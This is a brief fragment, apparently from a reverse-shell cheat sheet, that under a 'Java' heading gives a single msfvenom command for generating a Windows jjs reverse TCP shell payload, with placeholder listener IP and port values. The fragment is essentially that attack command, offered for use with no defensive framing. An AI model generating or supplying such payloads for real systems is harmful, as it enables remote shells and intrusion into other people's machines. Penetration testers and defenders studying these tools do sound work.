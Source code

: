 # Java

## 01 - Generate via `msfvenom`

```
$ msfvenom -p cmd/windows/jjs_reverse_tcp lhost=<IP> lport=<PORT>
```